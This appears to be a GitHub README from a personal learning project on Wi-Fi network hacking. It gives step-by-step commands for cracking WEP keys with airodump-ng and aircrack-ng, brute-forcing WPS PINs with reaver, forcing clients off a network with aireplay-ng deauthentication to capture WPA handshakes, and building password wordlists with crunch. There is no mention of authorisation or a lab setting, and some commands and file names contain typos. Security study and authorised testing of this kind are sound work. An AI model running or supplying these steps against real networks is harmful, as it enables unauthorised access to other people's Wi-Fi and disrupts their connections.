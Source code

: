 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch

## Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

(The mode will be Monitor now)

- Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

- Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

- Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
- Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
- Copy the key and remove the : and that would be the wifi password.

## Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
(not all routers will be cracked with these steps)

**Method for capturing handshake**

- Find the BSSID of the network with ifconfig
- Write a file via **airodump-ng**.
```bash
root@kali:~# airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
- Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
- The handshake WPA will be saved in the file we created wpa_handshake.cap
- We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```


￼
